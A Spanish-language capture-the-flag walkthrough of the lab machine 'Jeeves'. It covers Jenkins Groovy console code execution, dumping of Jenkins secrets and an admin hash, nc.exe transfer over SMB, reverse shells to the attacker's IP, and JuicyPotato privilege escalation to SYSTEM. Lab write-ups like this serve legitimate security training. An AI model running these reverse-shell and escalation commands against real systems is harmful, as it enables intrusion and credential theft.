# Jeeves



- 445 -> Intentamos conectarnos al smb (Microsoft DS Domain Service)
```bash
smbclient -L 10.129.228.112
```



No podemos listar contenido ni acceder con null session

- 80
- Whatweb -> http://10.129.228.112:80 [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[10.129.228.112], Microsoft-IIS[10.0], Title[Ask Jeeves]
**Miscrosoft-IIS**
- Nmap http-enum -> Nada interesante

- Al realizar cualquier búsqueda en la web nos devuelve una imagen de un error de SQL
El recurso es */error.html*



Datos
- Microsoft SQL Server 2005 - 9.00.4053.00
- C:\webroot\Sock_Puppets\App_Code\Generic DataAccess.cs
- Conversion failed when converting the nvarchar value 'Microsoft SQL Server 2005'

- 50000
También vemos un error



Vemos un **Jetty**
- Qué es Jetty





Whatweb -> http://10.129.228.112:50000 [404 Not Found] Country[RESERVED][ZZ], HTTPServer[Jetty(9.4.z-SNAPSHOT)], IP[10.129.228.112], Jetty[9.4.z-SNAPSHOT], PoweredBy[Jetty://], Title[Error 404 Not Found]
- *Wapalizer* nos reporta **Jetty 9.4**

- Buscamos exploits para jetty 9.4
No encontramos nada que parezca funcionar

- Hacemos un fuzzeo
```bash
gobuster dir -u http://10.129.228.112:50000 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -x php,html,js,txt
```



Encontramos lo que parece un panel



**Jenkins**

- Vemos dos usuarios



- Vemos información sobre la máquina host



Windows 10
Si pinchamos en la máquina víctima podremos ejecutar algunos comandos



Nos da info de que el script es en **Groovy**

- Buscando en google por *groovy script to execute console command windows* encuentro un script que nos permite RCE



- Podemos ver hasta la flag



- Si listamos el contenido del directorio actual con
```powershell
dir
```



Vemos algunos archivos interesantes
- secret.key
58d05496da2496d09036d36c99b56f1e89cc662f3e65a4023de71de7e1df8afb
- secrets\master.key
40e19a08d55698273e82182aae560bb78f5c99205e1b603de13e4729dfeed0bfaa9ed79557107ca7294a8a18a9bd81d60ee5610943e488bf2150dc1b06935b8f2a4f5b9370e0cb1d28249758e2b96cf2b658f2c5290fc6a202d9a04621c79eb0d09faf3246e50998a0aaea42b76eb96186f4842e0f9c07bbbd77152afc59de16

- Encontramos un hash de la pass del usuario admin en
```powershell
Users\\admin\\config.xml
```



En bcrypt
$2a$10$QyIjgAFa7r3x8IMyqkeCluCB7ddvbR7wUn1GmFJNO2jQp2k8roehO

- Intentaremos crackearla con
```bash
hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt
```

- Mientras seguimos buscando info sensible
Buscando en internet por default credentials de admin de Jenkins vemos que hay una archivo con un hash de la contraseña inicial de admin
*C:\Users\Administrator\.jenkins\secrets\initialAdminPassword*
ccd3bc435b3c4f80bea8acca28aec491 -> No parece crackeable

- Intentaremos lanzarnos una shell directamente
No hay netcat en la máquina víctima lo vemos con
```powershell
locate nc.exe
```

Lo pasaremos por smb
En nuestra máquina:
```bash
impacket-smbserver smbPwned $(pwd) -smb2support -username qarlg -password qarlg123
```

En Jenkins
```
def p = "cmd.exe /c net use \\\\10.10.16.179\\smbPwned /u:qarlg qarlg123".execute()
```

-> **Es importante escapar las \\** Si no no funcionará
Vemos lo que hay en el servicio compartido
```powershell
dir \\\\10.10.16.179\\smbPwned
```



Nos copiamos el nc.exe
```powershell
copy \\\\10.10.16.179\\smbPwned\\nc.exe C:\\Users\\kohsuke\\Desktop\\nc.exe
```



```powershell
C:\\Users\\kohsuke\\Desktop\\nc.exe -e cmd.exe 10.10.16.179 443
```

jeeves\kohsuke

## Escalada

```powershell
whoami /priv
```



- JuicyPotato - RottenPotato

```powershell
systeminfo
```



- 10.0.10586 N/A Build 10586

- Buscamos en google *10.0.10586 N/A Build 10586 privilege escalation*
Encontramos un exploit en searchsploit -> https://www.exploit-db.com/exploits/41901
Primero compilamos el archivo en nuestra máquina
```bash
mcs -out:41901.exe 41901.cs
```

Ahora lo pasamos a la víctima
```powershell
copy \\10.10.16.179\smbPwned\41901.exe C:\\Users\kohsuke\Desktop\41901.exe
```

Nos da un error

- Vamos a intentar con Juicy Potato para la versión de Windows 10 PRO
- Buscamos en la pag **bynaryregion**
*Microsoft windows 10 pro juicy potato privilege escalation*
Encontramos el recurso para Windows 10 -> https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe

- Lo descargamos y lo pasamos a la máquina windows. Seguiremos los pasos de la web para ejecutar el exploit
Nos ponemos a la escucha en nuestro equipo
```bash
nc -nlvp 4444
```

Ejecutamos el exploit
```bash
JuicyPotato.exe -l 6666 -t * -p C:\Windows\System32\cmd.exe -a "/c C:\Users\kohsuke\Desktop\nc.exe -e cmd.exe 10.10.16.179 4444"
```

`-l 6666` → puerto que utiliza **JuicyPotato para su propio servidor COM local**. No es el puerto de tu reverse shell.
`-t *` → tipo de llamada `CreateProcess` que utilizará JuicyPotato.
`-p ...\cmd.exe` → programa que JuicyPotato intenta ejecutar con el contexto privilegiado.
`-a "..."` → argumentos que recibe ese `cmd.exe`.
`-c CLSID` → CLSID concreto que quieres utilizar para la activación COM. Si no lo especificas, dependiendo de la versión de JuicyPotato puede utilizar uno predeterminado.
nt authority\system

- Buscamos la flag con ADS



```powershell
dir /s /r
```



Vemos el **Alternate Data Stream (ADS)** y lo visualizaremos con
```powershell
more < hm.txt:root.txt:$DATA
```


